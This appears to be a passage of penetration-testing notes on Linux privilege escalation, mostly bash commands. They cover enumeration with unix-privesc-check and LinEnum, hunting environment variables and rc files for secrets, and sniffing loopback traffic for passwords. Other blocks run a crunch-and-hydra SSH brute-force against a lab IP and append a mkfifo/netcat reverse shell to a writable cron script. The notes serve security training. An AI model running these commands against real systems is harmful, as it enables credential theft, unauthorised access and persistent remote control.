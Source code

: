 ```bash
cp /usr/bin/unix-privesc-check .
chmod +x ./unix-privesc-check
./unix-privesc-check standard > output.txt

# find keyword in files, report to /tmp
./LinEnum.sh -s -k keyword -r report -e /tmp/

```

## Confidential Information Disclosure

```bash
# environment variables
(env || set) 2>/dev/null

# review dot file which executes when shell opens
grep "export" /home/**/.*rc 2> /dev/null
cat ~/.bashrc

# try to escalate privileges
su - root
sudo -l
sudo -i

# try to watch what processes do 
watch -n 1 "ps -aux | grep pass"

# try to capture network traffic on loopback interface 
# -A ASCII
sudo tcpdump -i lo -A | grep "pass"

# create word list and run hydra to crack it using ssh
# crunch - t <pattern>
crunch 6 6 -t lab%%% > wordlist
hydra -l user -P wordlist  192.168.50.214 -t 4 ssh -V

```

## Abusing CRON Jobs

* Requires insecure write file permisison on executed script
* Review Syslog for jobs to find script execution
* Find writeable file by permissions
* Manipulate script file e.g. add reverse shell
* Reverse Shell Cheat Sheet `https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet`

```bash
# Review syslog for jobs
tail -f /var/log/cron.log
grep "CRON" /var/log/syslog


# Find writeable file by permissions
ls -lah /home/joe/.scripts/user_backups.sh
# Manipulate script file e.g. add reverse shell on the localhost
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f" >> user_backups.sh

```
